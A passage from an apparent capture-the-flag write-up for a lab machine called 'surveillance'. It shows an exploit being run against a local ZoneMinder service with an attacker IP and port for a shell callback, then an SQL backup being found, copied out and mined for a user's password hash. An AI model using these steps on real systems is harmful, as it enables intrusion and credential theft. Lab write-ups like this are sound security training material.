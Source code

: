 ZoneMinder is listening on port 8080 on localhost. The exploit is transferred to the target machine. All that is left is to execute the exploit.

```shell
www-data@surveillance:~/html/craft/web$ python3 /tmp/exploit.py -t http://127.0.0.1:8080 -ip 10.10.14.6 -p 4444
Traceback (most recent call last):
  File "/tmp/exploit.py", line 2, in <module>
    import requests
ModuleNotFoundError: No module named 'requests'
```

The "requests" library is missing. 

After hours of being stuck, I found the right path. In the folder "/var/www/html/craft/storage" a strange file was located.

```shell
www-data@surveillance:~/html/craft$ ls -l
total 292
-rw-r--r--  1 www-data www-data    529 May 23  2023 bootstrap.php
-rw-r--r--  1 www-data www-data    622 Jun 13  2023 composer.json
-rw-r--r--  1 www-data www-data 261350 Jun 13  2023 composer.lock
drwxr-xr-x  4 www-data www-data   4096 Oct 11 17:57 config
-rwxr-xr-x  1 www-data www-data    309 May 23  2023 craft
drwxrwxr-x  2 www-data www-data   4096 Oct 21 18:26 migrations
drwxr-xr-x  6 www-data www-data   4096 Oct 11 20:12 storage
drwxr-xr-x  3 www-data www-data   4096 Oct 17 15:24 templates
drwxr-xr-x 42 www-data www-data   4096 Jun 13  2023 vendor
drwxr-xr-x  8 www-data www-data   4096 Feb  7 15:51 web
www-data@surveillance:~/html/craft$ cd storage
www-data@surveillance:~/html/craft/storage$ find . -type f
[...]
./logs/phperrors.log
./logs/web-2024-02-07.log
./backups/surveillance--2023-10-17-202801--v4.4.14.sql.zip
./.gitignore
```

The "surveillance--2023-10-17-202801--v4.4.14.sql.zip" file sounds promising. It is transferred to the attacking machine. After unzipping it, SQL dump is analyzed. An additional hash of matthew's password is identified.

![](img/surveillance8.png)

